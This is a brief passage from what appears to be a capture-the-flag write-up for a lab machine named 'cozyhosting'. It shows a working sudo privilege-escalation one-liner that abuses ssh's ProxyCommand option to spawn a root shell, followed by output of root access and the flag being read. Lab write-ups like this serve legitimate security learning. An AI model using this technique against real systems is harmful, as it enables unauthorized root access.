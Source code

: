 When we run the exploit, we are able to get a shell as root!

```bash
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
[sudo] password for josh: 
$ id
uid=0(root) gid=0(root) groups=0(root)
$ cat /root/root.txt
d4feb0a4d24...
```

 
Got the flag, see you in the next one!